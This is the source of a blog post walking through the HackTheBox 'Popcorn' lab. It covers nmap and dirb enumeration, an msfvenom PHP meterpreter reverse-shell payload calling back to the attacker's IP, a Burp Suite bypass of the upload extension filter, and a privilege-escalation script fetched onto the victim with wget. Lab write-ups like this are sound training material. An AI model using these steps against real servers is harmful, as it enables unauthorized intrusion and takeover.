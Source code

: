```yaml
---
layout: post
title:  "How to hack a site through an uploader"
description: "Learn pentesting web from 0 with HackTheBox (Popcorn)"
date:   2019-04-01
image:  uploaderPopcorn.jpg
tags:  [Enumeration, Pentesting WEB, Escalation Privilege, Metasploit Framework]
---
```


Hello Hackers!!   
In this day, we will learn how to have total control over a web server, all thanks to a badly configured uploader.   
Before starting I want to clarify that all my published content is done for educational, informative and ethical purposes.  
I am not responsible for the misuse they may give you.    

## With this tutorial you will learn:
  - how to intercept requests with burpsuite.
  - how to bypass file upload restrictions using burp suite.
  - how to perform a simple port scan with Nmap.
  - how to get a meterpreter session with Metasploit.
  - how to perform a directory discovery with dirb.
  - How to perform an exploit search with Searchsploit.

To carry out this demonstration, we will perform a penetration test on a vulnerable machine called **Popcorn** published on the [HackTheBox](https://www.hackthebox.eu/home/machines/profile/4) platform.  
In any process to hack or have total control over a server in an unauthorized manner must start with a system enumeration.  
For this we will perform a simple scan with Nmap, in the following way.    

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2734]
╰─[:)] # nmap -T4 -Pn -sV -F -sC -oN Popcorn.nmap 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 02:06 -05
Nmap scan report for 10.10.10.6
Host is up (0.20s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

{% endhighlight %}  

With the results of the Nmap, we can identify that our victim has port 22 (SSH) and port 80 (HTTP) open.  
Knowing port 80 is open in the victim’s network we preferred to explore his IP in the browser but didn’t get any remarkable clue for the next step.  

<figure>
  <img src="{{site.baseurl}}/img/Port80Popcorn.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/Port80Popcorn.png" title="Initial page running on port 80">Initial page running on port 80.</a>.
  </figcaption>
</figure>

The next step is to perform a directory discovery, for this I will use DIRB.   
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
[Kali Linux](https://tools.kali.org/web-applications/dirb)  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2735]
╰─[:)] # dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  1 02:06:49 2019
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                     
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                   
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                
+ http://10.10.10.6/test (CODE:200|SIZE:47328)                                                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                                        
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                                                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/users/ 
{% endhighlight %}  

Knowing the above, we decided to explore http://10.10.10.6/torrent/ through browser URL and what we see is a Webpage shown below. 
After looking at the page for some clue, we saw that we need to register on this site first.  

<figure>
  <img src="{{site.baseurl}}/img/Port80PopcornTorrent.png">
        <figcaption>
    <a href="{{site.baseurl}}/img/Port80PopcornTorrent.png" title="Navigating in the directory /torrent">Navigating in the directory /torrent</a>.
  </figcaption>
</figure>

To continue, we will create a user in the information system by filling out the registration form.

<figure>
  <img src="{{site.baseurl}}/img/Port80PopcornCreateUser.png">
        <figcaption>
    <a href="{{site.baseurl}}/img/Port80PopcornCreateUser.png" title="Creating a user in the information system">Creating a user in the information system</a>.
  </figcaption>
</figure>

After successfully registering on the website; We managed to identify an uploader where apparently the correct use of this, is for the uploading of utorrent's and hosting them on the site.
The next step is to upload any uttorrent and then edit it, in this way we can find another uploader which will facilitate the upload of our malicious file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornEditTorrent.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornEditTorrent.png" title="Editing Torrent options and Uploading uttorrent">Editing Torrent options and Uploading uttorrent</a>.
  </figcaption>
</figure>

<figure>
  <img src="{{site.baseurl}}/img/PopcornEditTorrent2.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornEditTorrent2.png" title="Editing Torrent options and Uploading uttorrent">Editing uttorrent uploaded</a>.
  </figcaption>
</figure>

Next, we are going to generate with Metasploit an exploit that allows us to connect through a reverse shell.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2738]
╰─[:)] # msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.4 lport=6969 -f raw > shell.php  
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
{% endhighlight %}

After generating our payload, we try to upload it to the server.
To avoid file filtering by extension that has the web server, which does not allow the upload of a file with PHP extension; what we must do is concatenate another extension that if valid on the name of our payload as follows:

<figure>
  <img src="{{site.baseurl}}/img/PopcornUploadShell.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornUploadShell.png" title="How to bypass file upload restrictions">How to bypass file upload restrictions</a>.
  </figcaption>
</figure>

We are going to start a burpsuite instance, and then we intercept the request to manipulate the extension of our malicious file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornBurpsuite.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornBurpsuite.png" title="How to bypass file upload restrictions using burp suite">How to bypass file upload restrictions using burp suite</a>.
  </figcaption>
</figure>

Ok, we have our file uploaded to the victim web server.  

<figure>
  <img src="{{site.baseurl}}/img/PopcornFileUploaded.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornFileUploaded.png" title="File with PHP extension uploaded">File with PHP extension uploaded</a>.
  </figcaption>
</figure>

Now what we must do is locate this file and access it from a browser, in order to obtain RCE on the machine.  
Among the results of the previous scan with DIRB, there was a route where the files would appear to be uploaded.  
So next we decided to explore http://10.10.10.6/torrent/upload/ through browser URL and what we see is a Webpage shown below.  

<figure>
  <img src="{{site.baseurl}}/img/PopcornFileUploaded2.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornFileUploaded2.png" title="File with PHP extension uploaded">File with PHP extension uploaded</a>.
  </figcaption>
</figure>

We see that our file has been successfully uploaded.   
We click on our file, but first we must start the metasploit and tell it that we are going to wait for a connection.

<figure>
  <img src="{{site.baseurl}}/img/Popcornwww-data.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/Popcornwww-data.png" title="RCE on Popcorn HackTheBox">RCE on Popcorn HackTheBox</a>.
  </figcaption>
</figure>

Ready friends!  
We can now execute commands on our server with the www-data user, thanks to our meterpreter session that we managed to obtain.

## Privilege Escalation  
Now that we have access to the server we are going to enumerate a bit.
Initially I managed to identify something interesting on the desktop.

<figure>
  <img src="{{site.baseurl}}/img/PopcornLsR.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornLsR.png" title="Recursive list of files">Recursive list of files</a>.
  </figcaption>
</figure>

Apparently there is a folder called cache that contains a file with interesting name, we will perform a search for exploits with searchsploit indicating the name of the mentioned file.

<figure>
  <img src="{{site.baseurl}}/img/PopcornSearchsploit.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/PopcornSearchsploit.png" title="Using Searchsploit">Using Searchsploit</a>.
  </figcaption>
</figure>

Interestingly, we find 3 results, and apparently 2 of them are used for the Privilege Escalation.
At this moment, what we have to do is copy the exploit from the searchsploit directory, and to avoid later errors we use **dos2unix** to run the exploit without problems on our victim machine.
On the other hand,  In order to upload the script to our victim, I will mount an HTTP server that hosts the script that will allow us to scale privileges.; later from the victim machine I will download the file using WGET.  
We go to the folder that contains our bash script and execute the following to mount an HTTP server with Python.  

{% highlight zsh %}
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2762]
╰─[:)] # cp /usr/share/exploitdb/exploits/linux/local/14339.sh ./                  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2763]
╰─[:)] # ls
14339.sh  Popcorn.nmap  shell.php.png
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2764]
╰─[:)] # mv 14339.sh privesc.sh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2765]
╰─[:)] # dos2unix privesc.sh 
dos2unix: converting file privesc.sh to Unix format...
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2766]
╰─[:)] # python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
{% endhighlight %}  

After having published the exploit on our HTTP server, we downloaded it to our victim machine (Popcorn) and proceed with the execution of this as indicated below.

<script id="asciicast-238104" src="https://asciinema.org/a/238104.js" async></script>

And with this we conclude the tutorial of today.

